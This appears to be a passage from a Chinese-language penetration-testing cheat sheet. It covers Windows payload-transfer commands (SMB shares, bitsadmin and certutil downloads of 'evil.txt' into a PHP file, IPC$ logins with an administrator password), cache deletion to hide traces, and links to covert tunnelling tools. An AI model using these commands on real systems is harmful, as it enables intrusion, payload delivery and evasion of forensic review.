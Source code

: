 **smb**
1. 在公网创建一个共享如：\\111.111.111.111\test$
2. 命令行下执行 net use \\111.111.111.111\test$ /u:test test
3. 最后上传文件到共享，命令行下拷贝：copy \\111.111.111.111\test$\test.exe c:\

**Bitsadmin**

bitsadmin 是一个命令行工具，可用于创建下载或上传工作和监测其进展情况。
```
bitsadmin /transfer n http://192.168.1.1/1/evil.txt d:\test\1.txt
```

**certutil**

用于备份证书服务，支持 xp-win10 都支持。由于 certutil 下载文件都会留下缓存，所以一般都建议下载完文件后对缓存进行删除。

缓存目录为: `%USERPROFILE%\AppData\LocalLow\Microsoft\CryptnetUrlCache\Content`
```
# 下载
certutil -urlcache -split -f http://192.168.28.128/imag/evil.txt test.php

# 删除缓存
certutil -urlcache -split -f http://192.168.28.128/imag/evil.txt delete
```

**ipc$**
```
# 建立远程 IPC 连接
net use \\192.168.28.128\ipc$ /user:administrator "abc123!"

# 复制远程文件到本地主机
copy \\192.168.28.128\c$\2.txt D:\test
```

---

# 隐匿攻击

## 隐蔽隧道

### 端口转发

**文章**
- [渗透基础——端口转发与代理](https://www.4hou.com/posts/PQMA)

**工具**
- [cw1997/NATBypass](https://github.com/cw1997/NATBypass) - 一款 lcx 在 golang 下的实现
- [knownsec/rtcp](https://github.com/knownsec/rtcp) - 利用 Python 的 Socket 端口转发，用于远程维护
- [k8gege/PortTran](https://github.com/k8gege/PortTran) - .NET 端口转发工具,支持任意权限
- [sensepost/reGeorg](https://github.com/sensepost/reGeorg) - 通过走 web 流量进行端口转发
- [EarthWorm](http://rootkiter.com/EarthWorm/)
    - [idlefire/ew: 内网穿透(跨平台)](https://github.com/idlefire/ew)
    - [「SOCKS5代理」ew 正向、反向、多级级联](https://ai-sewell.me/2018/SOCKS5%E4%BB%A3%E7%90%86-ew-%E6%AD%A3%E5%90%91-%E5%8F%8D%E5%90%91-%E5%A4%9A%E7%BA%A7%E7%BA%A7%E8%81%94/)
    - [利用 ew 轻松穿透目标多级内网](https://klionsec.github.io/2017/08/05/ew-tunnel/)
